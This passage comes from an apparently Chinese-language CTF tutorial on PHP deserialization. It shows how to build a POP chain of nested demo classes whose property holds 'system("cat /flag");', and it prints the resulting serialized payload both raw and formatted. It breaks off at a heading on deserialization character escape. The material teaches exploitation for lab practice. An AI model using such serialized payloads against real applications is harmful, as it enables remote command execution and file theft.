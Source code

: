 构造完思路后也可以删除成员函数，生成pop链，

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class demo1{
    public $d1text1;
    public $d1text2;
}
class demo2{
    public $d2text1;
    public $d2text2;

}
class demo3{
    // public $d3text1 = 'system("cat /flag")'; // 直接在原代码中给属性赋值更简洁
    public $d3text1;
    public $d3text2;
}

$a = new demo1();
$a->d1text1 = new demo2();
$a->d1text1->d2text1 = new demo3();
$a->d1text1->d2text1->d3text1 = 'system("cat /flag");';
// $a->d1text1->d2text1->d3text1;
echo serialize($a);

// 结果
/*
O:5:"demo1":2:{s:7:"d1text1";O:5:"demo2":2:{s:7:"d2text1";O:5:"demo3":2:{s:7:"d3text1";s:19:"system("cat /flag");";s:7:"d3text2";N;}s:7:"d2text2";N;}s:7:"d1text2";N;}

格式化

O:5:"demo1":2:{
    s:7:"d1text1";
    O:5:"demo2":2:{
        s:7:"d2text1";
        O:5:"demo3":2:{
            s:7:"d3text1";s:19:"system("cat /flag");";
            s:7:"d3text2";N;
        }
        s:7:"d2text2";N;
    }
    s:7:"d1text2";N;
}

?>
```

## PHP反序列化字符逃逸
